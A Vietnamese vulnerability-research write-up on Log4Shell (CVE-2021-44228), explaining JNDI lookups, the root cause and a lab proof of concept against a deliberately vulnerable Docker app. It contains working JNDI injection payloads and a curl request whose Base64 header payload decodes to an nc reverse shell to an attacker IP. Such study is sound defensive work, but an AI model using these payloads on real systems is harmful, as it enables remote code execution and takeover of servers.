







# Nghiên cứu lỗ hổng CVE-2021-44228 (Log4shell)

# **1. Mã khai thác**

```
${jndi:ldap://127.0.0.1:1389/Run}
```

# **2. Mô tả lỗi**

## 2.1. Giới thiệu về Log4shell

*Apache Log4j 2* là một thư viện Java phổ biến hỗ trợ việc log error messages của ứng dụng.

Log4shell là lỗ hổng phần mềm của *Apache Log4j 2* được published lần đầu với CVE-2021-44228, với nguyên nhân chủ yếu là do Improper Input Validation, cho phép remote attacker có thể chiếm quyền kiểm soát thiết bị trên Internet nếu thiết bị đó chạy Log4j 2.

Log4shell là tên gọi cho tập hợp các lỗ hổng của thư viện log4j bao gồm các CVE như: CVE-2021-44228, CVE-2021-45046, CVE-2021-4104, CVE-2021-42550, CVE-2021-45105, CVE-2021-44832.

Ở CVE-2021-44228, log4j phiên bản 2.0 tới 2.14.1 bị ảnh hưởng.

## 2.2. JNDI 

JNDI (Java Naming and Directory Interface) là 1 dịch vụ thư mục (directory service) cho phép chương trình Java có thể tìm kiếm dữ liệu bằng cách sử dụng name service.



JNDI cung cấp API cho ứng dụng để tương tác với LDAP, RMI,... Thông thường app Java sẽ không thể trực tiếp gửi request tới LDAP. 

JNDI Naming Reference: Để thu được Java object, ta có thể tiến hành serialized chúng và lưu dưới dạng nhị phân. Tuy vậy trong 1 số trường hợp, việc này sẽ không hiệu quả (File quá lớn,...) Naming references được sử dụng giúp cho việc lưu Java object trở nên dễ dàng hơn. Naming reference có 2 loại chính:

- Reference address: tham chiếu địa chỉ của object (`ldap://server/ref`), object sẽ được lấy thông qua địa chỉ đó.

  

- Remote Factory: remote factory class sẽ được trỏ tới bởi JNDI reference, sau đó theo địa chỉ JNDI remote class này sẽ được lấy từ remote factory và class sẽ được tải xuống và load. 

  

## 2.3. Root cause

Log4j có một tính năng dẫn tới lỗ hổng này, đó chính là tính năng lookup. Tính năng này được trigger bởi một chuỗi string đặc thù `${prefix:name}` . Thay vì in ra cả chuỗi ký tự này, đoạn string này sẽ được Log4j tiến hành lookup() .

```java
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;
 
public class Gday {
   static Logger logger = LogManager.getLogger(Gday.class);
 
   public static void main(String... args) {
      logger.error(args.length > 0 ? args[0] : "[no data provided to log]");
      System.out.println("Main is exiting.");
   }
}
```



Root cause của Log4shell nằm ở tính năng lookup() của JNDI, dẫn tới việc attacker tiến hành JNDI injection. 2 giao thức được hỗ trợ chủ yếu bởi JNDI là LDAP và RMI, khi thực hiện lookup() đều trả về 1 object.  Object này sẽ được server nạn nhân thực thi, dẫn tới RCE.

Đối với JNDI Injection, ta sẽ có 2 cách để tiến hành khai thác:

- Deserialization exploit:

  Đối với cách khai thác này, attacker có thể chèn mã độc với định dạng `${jndi:ldap://attacker/exploit}`, khi đoạn mã độc được log lại tại server nạn nhân, Log4j tìm thấy đoạn message và bắt đầu thực hiện request JNDI tới LDAP server  của `attacker` về `exploit` object. JNDI sẽ tiến hành lookup class mã độc tại LDAP server . LDAP sẽ trả về server nạn nhận một malicious serialized object, server nạn nhân sẽ tiến hành deserialize object, thực thi file `exploit.class` `->` Dẫn tới RCE. 

  

- JNDI Reference: Đối với cách khai thác JNDI Reference, attacker sẽ sử dụng 1 LDAP server và 1 HTTP server, sau khi chèn mã độc `${jndi:ldap://attacker/exploit}`, đoạn mã được log tại server nạn nhân, log4j tìm thấy đoạn mã này và tiến hành jndi lookup như kịch bản trên. JNDI sẽ gửi request tới LDAP server của attacker và được LDAP server trả về 1 JNDI reference, server nạn nhận nhận được JNDI reference này sẽ gửi request tới HTTP server của attacker để GET về file `exploit.class` và tiến hành thực thi mã độc này.

  

## 2.4. POC cho JNDI Reference exploit:

- Step 1: Chạy vuln app tại `192.168.16.105:8080`.

  ```
  docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
  ```

  

- Step 2: Sử dụng JNDIExploit để khởi chạy malicious LDAP server và HTTP server tại máy của attacker.

  ```
  java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.30.178.54 -p 8888
  ```

  

- Step 3: Tại máy attacker, một cửa sổ bật ncat, 1 cửa sổ sử dụng tiến hành gửi request có chứa đoạn mã độc để kích hoạt reverse shell.

  ```
  curl 192.168.16.105:8080 -H 'X-Api-Version: ${jndi:ldap://172.30.178.54:1389/Basic/Command/Base64/bmMgMTcyLjMwLjE3OC41NCA0NDQ0IC1lIC9iaW4vc2g=}'
  ```

- Step 4: Đoạn mã độc được log tại server nạn nhân, tiến hành JNDI lookup() với giao thức LDAP tới LDAP server attacker, tại đây các parameter trong URL được xử lý, cụ thể là Command được mã hóa Base64 được encode thành `nc 172.30.178.54 4444 -e /bin/sh`, và được gửi tới HTTP server của attacker, tại đây 1 file `exploit.class` được gen ra dựa trên Command được gửi tới từ LDAP server, server nạn nhân tiến hành GET file `exploit.class` và thực thi file, attacker lấy được shell tới server nạn nhân.

  

